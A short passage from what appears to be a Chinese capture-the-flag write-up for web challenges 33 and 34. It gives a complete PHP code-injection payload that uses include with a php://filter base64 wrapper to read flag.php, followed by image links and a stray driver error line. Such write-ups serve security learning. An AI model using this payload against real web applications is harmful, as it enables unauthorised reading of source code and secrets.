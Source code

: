 直接用上一题payload就可以不过要吧 ” 去了引号不影响$_GET[]获取参数

?c=$b=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

![web33_flag](./image/web33_flag.png)

![web33_flag (2)](./image/web33_flag (2).png)

## Web34

题目新增：':

![web34_timu](./image/web34_timu.png)


[ERROR]: could not find driver